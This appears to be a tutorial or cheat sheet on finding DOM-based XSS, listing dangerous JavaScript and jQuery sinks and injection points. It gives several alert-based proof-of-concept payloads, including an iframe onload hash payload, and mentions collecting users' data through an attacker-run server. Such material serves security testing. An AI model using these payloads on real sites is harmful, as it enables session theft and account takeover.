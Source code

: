 ### The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:   
`document.write()` | `document.writeln()` | `document.domain` | `element.innerHTML` | `element.outerHTML` | `element.insertAdjacentHTML` | `element.onevent`

### The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
`add()` | `after()` | `append()` | `animate()` | `insertAfter()` | `insertBefore()` | `before()` | `html()` | `prepend()` | `replaceWith()` | `wrap()` | `wrapInner()` | `wrapAll()` | `has()` | `constructor()` | `init()` | `index()` | `jQuery.parseHTML()` | `$.parseHTML()`

▪ Identifying Weaknesses in Input Handling:
• Look for the direct usage of these inputs in dangerous functions, such as:
  - eval(), setTimeout(), or setInterval() when passing string values.
  - innerHTML or outerHTML, which may directly render content.
  - document.write() or document.writeln().
  - addEventListener() or any function that executes JavaScript code based on user inputs.
  - As soon as you find the first link followed by a secondary link, the parameter is usually named returnurl, url, or returnpath. Inject the code javascript:confirm() into it, or look for bypass techniques.
  - Example: `?returnUrl=javascript:alert(document.domain)`

- If the application displays content based on `document.location.hash`:
  Example: 
  ```html
  http://example.com/#<script>alert('XSS')</script>
  ```

- When using `innerHTML` with unsanitized data:
  Example: 
  ```html
  <img src=x onerror=alert('XSS')>
  ```

- Using functions like `eval()` with URL parameters:
  Example: 
  ```html
  http://example.com/?input=alert('XSS')
  ```

- First, we create a regular `.txt` file, let's assume its name is `xss.txt`. Then, we write the following code inside it:
  ```html
  <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
  ```

- Next, we convert the file to an HTML file like this:
  `xss.txt -> xss.html`, and then open the file. What happens is that we can pull data remotely. So, if we set up a server, we can remotely collect a copy of the user's data.
